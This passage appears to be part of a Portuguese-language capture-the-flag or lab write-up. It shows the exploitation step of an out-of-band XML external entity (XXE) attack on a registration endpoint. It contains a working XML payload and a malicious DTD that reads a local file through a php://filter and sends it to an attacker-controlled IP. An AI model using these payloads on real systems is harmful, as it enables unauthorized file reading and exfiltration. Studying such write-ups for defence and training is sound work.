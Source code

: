 ### Exploitation

Vemos que a aplicação não está retornando o output do XML, ou seja, precisamos criar uma payload para explorarmos XXE Out-of-Band.



**Criando Payload:**

```xml
<!DOCTYPE root [
    <!ENTITY % xpl SYSTEM "http://<you-ip>/xpl.dtd">
    %xpl;
]>
<root>
    <method>POST</method>
    <uri>/auth/register</uri>
    <user>
        <username>test</username>
        <password>test</password>
    </user>
</root>
```

<figure><img src="./assets/22.png" alt=""><figcaption></figcaption></figure>

Com essa payload, fazemos uma request para nosso servidor python, carregando o conteúdo contido do **xpl.dtd**



**File: xpl.dtd**

```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/hostname">
<!ENTITY % payload "<!ENTITY &#37; run SYSTEM 'http://<your-ip>/?leak=%file;'>">
%payload;
%run;
```

<figure><img src="./assets/23.png" alt=""><figcaption></figcaption></figure>
